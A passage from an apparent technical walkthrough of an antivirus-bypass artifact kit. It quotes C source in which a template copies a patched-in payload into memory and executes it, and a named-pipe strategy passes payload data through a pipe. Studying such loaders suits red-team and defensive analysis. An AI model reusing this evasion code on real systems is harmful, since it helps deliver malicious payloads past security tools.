* `src-common/bypass-template.c` is not a bypass, but it servers to show how one can implement some logic inside the `start` function.

We can see that it grabs the payload buffer, copies it into memory, calls a `spawn` function and then frees the buffer.

```c
#include <windows.h>
#include <stdio.h>
#include "patch.h"

/* The start function gets called when the bypass is ready to execute. The HINSTANCE is
   a handle to the current artifact. You can use this to determine the location of this
   artifact on disk (if it helps your bypass technique) */
void start(HINSTANCE mhandle) {
        /* phear is a struct that defines how artifact.cna will patch the payload data
           into this artifact. You're welcome to update artifact.cna to use your own
           convention if you like. */
        phear * payload = (phear *)data;
        char * buffer;

        /* copy our payload into its own buffer... necessary b/c spawn modifies it */
        buffer = (char *)malloc(payload->length);
        memcpy(buffer, payload->payload, payload->length);

        /* execute our payload */
        spawn(buffer, payload->length, payload->key);

        /* clean up after ourselves */
        free(buffer);
}
```

* `src-common/bypass-pipe.c`, this is one fo the bypass strategies included in the kit.

```c
#include <windows.h>
#include <stdio.h>
#include "patch.h"

/* a place to track our random-ish pipe name */
char pipename[64];

void server(char * data, int length) {
        DWORD  wrote = 0;
        HANDLE pipe = CreateNamedPipeA(pipename, PIPE_ACCESS_OUTBOUND, PIPE_TYPE_BYTE, 1, 0, 0, 0, NULL);

        if (pipe == NULL || pipe == INVALID_HANDLE_VALUE)
                return;

        BOOL result = ConnectNamedPipe(pipe, NULL);
        if (!result)
                return;

        while (length > 0) {
                result = WriteFile(pipe, data, length, &wrote, NULL);
                if (!result)
                        break;

                data   += wrote;
                length -= wrote;
        }
        CloseHandle(pipe);
}

```